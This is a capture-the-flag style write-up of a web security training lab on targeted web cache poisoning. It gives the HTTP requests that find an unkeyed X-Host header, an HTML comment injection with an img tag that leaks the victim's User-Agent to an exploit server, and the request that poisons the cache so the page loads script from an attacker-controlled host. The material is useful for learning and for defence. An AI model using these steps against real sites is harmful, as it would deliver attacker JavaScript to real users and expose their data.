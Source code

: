 ### PRACTITIONER Lab: Targeted web cache poisoning using an unknown header
The origin server returns `Vary: User-agent` header to the caching server (and we later see it in the response because the caching server does not remove the `Vary` header from the response) which means that the origin server asks the caching server to use the value of `User-Agent` header in its cache key

To test that the User-Agent is used in the cache key we can modify the value of User-Agent header and see if the response is returned from the cache or not e.g. by looking into the `X-cache: miss`

So we add cache buster (randomasdfsdf) to User-Agent header and send the request:
```bash
GET / HTTP/1.1
Host: 0a28003904726084843378a7009700ca.h1-web-security-academy.net
Cookie: session=4fixngCBm1ojNle3udbAEmUaiOO8HBbO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0 randomasdfsdf
```
And in the response we see `X-Cache: miss` which means that it was not returned from the cache and it cached a new response for this User-Agent header that ends with the cache buster. Which proves that the User-Agent header is part of the cache-key.

So we run the Param miner to search for other headers that can change the response from the server.
```bash
Initiating header bruteforce on 0a28003904726084843378a7009700ca.h1-web-security-academy.net
Identified parameter on 0a28003904726084843378a7009700ca.h1-web-security-academy.net: x-host~%h:%s
Identified parameter on 0a28003904726084843378a7009700ca.h1-web-security-academy.net: origin~https://%s.%h
Identified parameter on 0a28003904726084843378a7009700ca.h1-web-security-academy.net: via
```
In the result amongst others we get `x-host` header

So we make a request with `X-Host: VVVV` header and search in the response for `VVVV`
The value of X-host is reflected on the page in the script src tag
```bash
<script type="text/javascript" src="//VVVV/resources/js/tracking.js"></script>
```

So we remove the cache buster from User-Agent header and poison the cache

The victim still doesn't hit the cache, this is because they have a different User-Agent and User-Agent is part of the cache key. Therefore we need to figure out the User-Agent of the victim

it's interesting that we can create a new blog comment on the blog and the html is allowed in the body of the new comment 
We can therefore create a new comment with the following text: `<img src="exploit-server.com" />`and then check `User-Agent` of the victim in the logs on the exploit server

So we now know the User-Agent of the victim so we send a new request with the User-Agent of the victim
```bash
GET / HTTP/1.1
Host: labid-web-security-academy.net
x-host: exploit-id.exploit-server.net
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```
And in the response we get:
```bash
X-Cache: miss
...
<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```
Which means the value from the x-host header (which is exploit-id.exploit-server.net in this case) is reflected in the response. And because of X-Cache: miss we know that the cache is poisoned
